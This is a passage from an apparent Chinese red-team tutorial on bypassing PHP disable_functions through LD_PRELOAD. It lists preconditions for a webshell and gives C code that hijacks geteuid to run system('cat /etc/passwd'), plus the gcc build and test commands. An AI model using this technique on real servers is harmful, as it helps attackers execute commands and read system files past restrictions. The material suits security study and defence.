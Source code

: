 `?a=command`

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/bypass_disable_function/2.png)

---

## ld_preload

LD_PRELOAD 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

bypass 的关键就是利用 LD_PRELOAD 加载库优先的特点来让我们自己编写的动态链接库优先于正常的函数库，以此达成执行 system 命令。

使用条件
- Linux 操作系统
- `putenv()`
- `mail` or `error_log`
- 存在可写的目录, 需要上传 .so 文件

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

```c
touch test.c
vim test.c

#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```

生成动态链接库

```
gcc --share -fPIC test.c -o test.so
```

`LD_PRELOAD=./test.so id`
